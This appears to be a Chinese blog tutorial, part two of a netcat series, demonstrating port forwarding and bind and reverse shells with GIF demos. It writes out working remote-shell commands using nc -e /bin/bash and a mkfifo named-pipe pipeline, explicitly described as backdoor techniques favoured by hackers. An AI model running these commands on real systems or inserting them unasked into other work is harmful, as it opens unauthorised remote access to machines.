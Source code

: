 ```yaml
---
title: TCP/IP 瑞士军刀 - netcat (篇二)
date: 2020-12-11 19:19:36
tags: [TCP/IP, netcat]
thumbnail: https://image.blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-1/banner.jpg
---
```


[欢迎转载，但请在开头或结尾注明原文出处【blog.chaosjohn.com】](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2.html)

## 前言
昨日写 [TCP/IP 瑞士军刀 - netcat (篇一)](https://blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-1.html) 的时候，翻阅了大量的资料，浏览器的标签也都开满了。所以趁大脑还依旧活跃，今天乘胜追击写个 `篇二`，仍然是以 GIF 动图演示其案例。

## 补上篇
上篇里有提到，如果只用 `netcat` 进行端口转发，必须用到 `GNU` 版本（因其拥有 `-c / -e` 参数）：

- `-c shell commands` 调用 /bin/sh 来执行命令
- `-e filename` 通过程序文件路径来执行程序

上案例：

- 远端执行 `nc -l -k -p 8080 -c "nc 192.168.1.21 22"`，即可将 `8080` 端口转发到 `192.168.1.21:22`
- 本地执行 `ssh 10.144.137.114 -p 8080` 即可测试转发成功

![GNU-netcat 端口转发](https://image.blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-port-forwarding.gif)

## 反弹 Shell
`netcat` 在网络应用中，很受黑客的喜爱，`反弹 Shell` 是其经常使用的场景。

什么是 `反弹 Shell` 呢？给个一句话解释：在目标机器上，弹一个 Shell 出来作为其后门，与本地机器进行通信，即 **本地机器** 可直接访问 **目标机器** 的 Shell。

而 `反弹 Shell` 也分为两种：

- `正向 Shell`，又名 `bind shell`
- `反向 Shell`，又名 `reverse shell`

因为要弹个 Shell 出来，所以一般都需要访问到 Shell，`/bin/sh` 或  `/bin/bash` 或 `/bin/zsh` 都可以。既然用到外部 Shell 程序，那一般都是使用 `GNU` 版本的 `netcat`（用到其 `-c / -e` 参数）

### 正向 Shell
先弹后连接，即让 `目标机器` 先弹个 Shell，暴露在某端口，然后 `本地机器` 连接上 `目标机器` 该端口，即可访问目标机器的 Shell。

- 目标机器：`nc -l -p 8080 -e /bin/bash`
- 本地机器：`nc 10.144.137.114 8080`

![GNU netcat 弹正向 Shell](https://image.blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-bind-shell.gif)

### 反向 Shell
先监听后连接，即 `本地机器` 先监听 `目标机器` 的某端口，如果 `目标机器` 在该端口弹出了 Shell，就可立即连接上。

- 本地机器：`nc -v -l -p 8080`
- 目标机器：`nc 10.144.247.172 8080 -e /bin/bash`

![GNU netcat 弹反向 Shell](https://image.blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2/netcat-gnu-reverse-shell-2.gif)


### OpenBSD netcat 实现正向 Shell
那如果非要用 `OpenBSD` 版本的 `netcat`，搭配什么使用可以反弹 Shell 呢？这里笔者列举一个列子 - `命名管道（named pipe）`，又名 `FIFO`，即 `first in first out` 先进先出。

- 目标机器先执行：`mkfifo /tmp/pipe` 创建一个命名管道
- 目标机器再执行：`cat /tmp/pipe | /bin/bash 2>&1 | nc -l -p 8080 > /tmp/pipe` 进行反弹 Shell
- 本地机器执行：`nc 192.168.1.21 8080`

> `命名管道` 的 `stdout（标准输出）` 通过 `"|"` 流向 `bash`
> 
> `2>&1` 表示 bash 的 `stderr（标准错误）` 重定向到 `stdout（标准输出）`
> 
> `bash` 的 `stdout（标准输出）` 通过 `"|"` 流向 `目标机器的 nc`
>
> 进而通过 `TCP/UDP 连接` 流向 `本地机器的 nc` 并显示
>
> `本地机器` 输入的命令再通过 `本地机器的 nc` 流向 `目标机器的 nc`
>
> `目标机器的 nc` 将接收到的命令输入 `命名管道`
> 
> 至此形成一个完整的循环

![OpenBSD netcat 弹正向 Shell](https://image.blog.chaosjohn.com/TCP-IP-Swiss-Army-Knife-netcat-2/netcat-openbsd-bind-shell-with-fifo.gif)

## 写在最后
本文演示了用 `netcat` 实现 `端口转发` 和 `反弹 Shell`，还有很多案例，等待读者们去发掘！

---

最后，如果该文对读者有些许帮助，考虑下给点捐助鼓励一下呗😊
![](https://image.blog.chaosjohn.com/donate-me.png)